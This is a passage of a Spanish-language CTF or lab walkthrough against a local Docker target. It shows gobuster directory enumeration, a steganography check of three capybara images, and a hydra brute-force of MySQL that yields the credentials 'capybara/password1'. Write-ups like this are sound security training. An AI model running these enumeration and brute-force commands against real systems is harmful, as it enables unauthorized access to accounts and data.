 **Hallazgos Relevantes:**
	No reporta rutas

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,txt,sh,html,js,java,py
```

- **Hallazgos**:
	No reporta archivos

### Analisis de Imagenes:
Descargamos las tres imagenes de la web para aplicar **esteganografia** y verificar si es que existe algun archivo oculto en ellas
```bash
capybarafeliz.jpg   capybaramistoso.jpg   capybaranarrador.jpg
```

Tenemos tres imagenes que tenemos que auditar, Verificando primero eltipo de archivo:
```bash
❯ file capybarafeliz.jpg
capybarafeliz.jpg: JPEG image data, Exif standard: [TIFF image data, big-endian, direntries=6, xresolution=86, yresolution=94, resolutionunit=2], baseline, precision 8, 640x427, components 3

❯ file capybaramistoso.jpg
capybaramistoso.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 318x159, components 3
                           
❯ file capybaranarrador.jpg
capybaranarrador.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 240x240, segment length 16, baseline, precision 8, 1600x899, components 3
```

Revisando si contiene caracteres legibles:
```bash
strings capybarafeliz.jpg | grep -i "password\|secret\|flag"
strings capybaramistoso.jpg | grep -i "password\|secret\|flag"
strings capybaranarrador.jpg | grep -i "password\|secret\|flag"
```

Al paracer no existe ningun archivo oculto en alguna imagen.

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Sabiendo que tenemos un posible usuario procedemos a realizar un ataque de fuerza bruta al servicio **mysql** que tambine esta expuesto:
```bash
hydra -l capybara -P /usr/share/wordlists/rockyou.txt -t 4 -f mysql://172.17.0.2
```

Ahora que tenemos credenciales validas las usaremos para conectarnos a la bd
```bash
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: capybara   password: password1
```
